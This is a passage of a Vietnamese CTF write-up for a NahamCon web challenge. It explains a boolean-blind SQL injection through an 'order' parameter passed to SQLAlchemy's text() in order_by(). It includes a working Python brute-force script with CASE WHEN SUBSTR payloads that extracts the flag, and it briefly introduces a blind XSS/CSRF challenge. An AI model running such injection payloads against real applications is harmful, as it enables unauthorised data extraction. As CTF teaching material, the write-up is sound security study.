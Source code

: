 Nhìn kĩ ta thấy điều bất thường là khi ta có sử dụng `order` param, query sẽ gồm method `.order_by()` pass hàm `text()` chứa param `order`. Qua tìm hiểu, hàm `text()` trong `sqlalchemy` là hàm thực hiện truy vấn nhận argument là 1 query string như các hệ SQL phổ biến khác thay vì cấu trúc như thường của nó là dùng `object-relational mapping(ORM)`, tức query bằng cách gọi các `object`, phù hợp cho lập trình hướng đối tượng.

Tham khảo: https://www.tutorialspoint.com/sqlalchemy/sqlalchemy_core_using_textual_sql.htm#:~:text=SQLAlchemy%20lets%20you%20just%20use,to%20the%20database%20mostly%20unchanged

Như bạn đã biết, exploit SQLi bằng `order by` này không thể tấn công bằng `union attack` nên ta nhận định đây là dạng SQL injection boolen based via order by.
#### Exploit

Ta tạo python script brute force thôi:

```python
import requests
import string

url = 'http://challenge.nahamcon.com:32714/'
characters = '_' + string.ascii_lowercase + string.digits + '}'

flag = 'flag{'
for i in range(30):
	for c in characters:
		data = {
			'search': '',
			'order': f'(SELECT CASE WHEN (select SUBSTR(flag,{len(flag)+1},1) from flag limit 1)="{c}" THEN "name" ELSE "atomic_number" END)'
		}

		r = requests.post(url, data=data)
		print('[-] - trying: ' + c)
		if '89' in r.text[2575:2544+137]:
			flag += c
			print('[+] - found: ' + flag)
			break

# name: Atomic Number: 89
# atomic_number: 3 
```

Ta ghép sql IF statement vào, thử điều kiện đúng sai trả về order by name/atomic_number, từ thứ tự khác biệt trả về, ta có thể brute force ra flag.

![Screenshot 2022-05-08 000216](https://user-images.githubusercontent.com/71699412/167264435-228c9758-0903-4ce7-be95-a1a4f842558e.jpg)

**Flag**: `flag{order_by_blind}`

## Hacker TS
Blind XSS make cross-site request forgery to localhost trộm sensitive information(flag)

### Description
We all love our hacker t-shirts. Make your own custom ones.
